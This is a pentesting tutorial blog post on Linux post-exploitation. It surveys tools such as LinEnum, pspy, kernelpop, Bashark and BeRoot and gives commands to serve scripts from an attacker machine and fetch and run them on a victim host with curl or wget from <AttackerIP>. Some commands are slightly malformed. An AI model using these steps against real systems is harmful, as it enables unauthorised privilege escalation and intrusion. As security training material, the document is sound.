 ```yaml
---
layout: post
published: true
title: Linux Post Exploitation 10.3
tags:
  - PWP
  - Intermediate
  - Linux Post Exploitation
comments: true
---
```

## Linux Automated Scripts


## Introduction 

In this blog post we will discuss some tools for performing our post exploitation processs, and save our time and efforts.


## Post Enumeration Scripts 


**LinEnum.sh**

``
https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh
``

This script is used to perform linux post enumeration/local linux enumeration and privilege escalation checks.

**How to use?** 

You need download it in target machine using wget or curl.

You can also use python,php,ruby or nc to start http static web server.

Python
``
python -m SimpleHTTPServer 8080
``
``
python3 -m http.server 80
``
PHP
``
php -S localhost:80
``
Ruby
``
ruby -run -ehttpd . -p80
``
Netcat
``
while true ; do nc -l 80 < LinEnum.sh
``

**Downloading using curl and wget**
``
curl -x -o LinEnum.sh http://<AttackerIP>/LinEnum.sh
``
wget
``
wget http://<AttackerIP>/LinEnum.sh
``

``
chmod +x LinEnum.sh
``
``
./LinEnum.sh
``
And it will automate the post enumeration process and give the valuable result


**Pspy**

This tool monitor's linux processes without root permissions  

Download its binary in your attacker system, start local server as before, and download it in victim's machine.

After download execute it and it will perform monitoring for you.


**Linux exploit suggestor**

https://github.com/InteliSecureLabs/Linux_Exploit_Suggester

Linux_Exploit_Suggester suggest's exploits based on operating system release number, which helps attacker to exploit the target.


**Searchsploit**
We have discussed this tool in previous phases, it can also help us to check particular exploit for target.


**Kernelpop**

https://github.com/spencerdodd/kernelpop

kernel privilege escalation enumeration and exploitation framework.


download it from link above
``
$ cd kernelpop
$ python3 kernelpop.py
``
It will automate kernel vulnerability enumeration and exploitation

**Bashark**

Bashark aids pentesters and security researchers during the post-exploitation phase of security audits.
Usage

To launch Bashark on compromised host, simply source the bashark.sh script from terminal: $ source bashark.sh Then type help to see Bashark's help menu

Features

* Single Bash script
* Lightweight and fast
* Multi-platform: Unix, OSX, Solaris etc.
* No external dependencies
* Immune to heuristic and behavioural analysis
* Built-in aliases of often used shell commands
* Extends system shell with post-exploitation oriented functionalities
* Stealthy, with custom cleanup routine activated on exit
* Easily extensible (add new commands by creating Bash functions)
* Full tab completion

``
wget https://raw.githubusercontent.com/TheSecondSun/Bashark/master/bashark.sh
``

and simply run it
``
chmod +x bashark.sh
``
``
./bashark.sh
``

**Linuxprivchecker**

Enumerates system configurations and check for privilege escalation

wget //www.securitysift.com/download/linuxprivchecker.py

``
python3 linuxprivchecker.py
``
**linux-exploit-suggester-2**

Linux_Exploit_Suggester-2 is the extended version of previous Linux_Exploit_Suggester used to find linux privelege escalation vulnerabilities in system. 

``
git clone //github.com/jondonas/linux-exploit-suggester-2.git
``
``
cd linux-exploit-suggester-2
``
``
./linux-exploit-suggester-2.pl
``

**BeRoot**
Privilege Escalation Project - Windows / Linux / Mac 
BeRoot Project is a post exploitation tool to check common misconfigurations to find a way to escalate our privilege.
It has been added to the pupy project as a post exploitation module (so it will be executed in memory without touching the disk).

For now we are using it for linux

Features of BeRoot:

* Check Files Permissions

* SUID bin

* NFS root Squashing

* Docker

* Sudo rules

* Kernel Exploit

``
wget https://raw.githubusercontent.com/AlessandroZ/BeRoot/master/Linux/beroot.py
``
``
chmod +x beroot.py
``
``
./beroot.py
``



## Conclusion 

_**We have discussed some automated scripts which can help us during post exploitation. I suggest to check them in your system to know about their work.**_
